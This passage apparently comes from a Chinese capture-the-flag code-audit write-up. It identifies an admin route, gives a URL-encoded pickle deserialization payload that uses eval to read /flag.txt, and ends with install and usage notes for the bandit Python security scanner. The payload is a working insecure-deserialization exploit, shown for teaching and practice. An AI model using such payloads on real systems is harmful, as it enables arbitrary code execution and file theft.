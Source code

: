 ```plain
所以是(r'/b1g_m4mber', AdminHandler)，/b1g_m4mber调用了这个文件

查看这个页面的表单
```

![1647943829637-a3fe9661-2d14-441c-9c85-313a5e93b2c0.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913132841868-1640860657.png)

```plain
所以post提交：become=c__builtin__%0Aeval%0Ap0%0A%28S%22open%28%27/flag.txt%27%2C%27r%27%29.read%28%29%22%0Ap1%0Atp2%0ARp3%0A.

得到flag
```

- 代码审计-自动化工具-bandit安装及使用

------

```plain
参考：https://bandit.readthedocs.io/
安装：pip install bandit（直接执行）
linux:
安装后会在当前Python目录下bin
使用：bandit -r 需要审计的源码目录
windows:
安装后会在当前Python目录下script
使用：bandit -r 需要审计的源码目录
```

![1647944944277-90179926-44df-4aad-b7fb-ec7b1beeacf2.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913132842050-1050205946.png)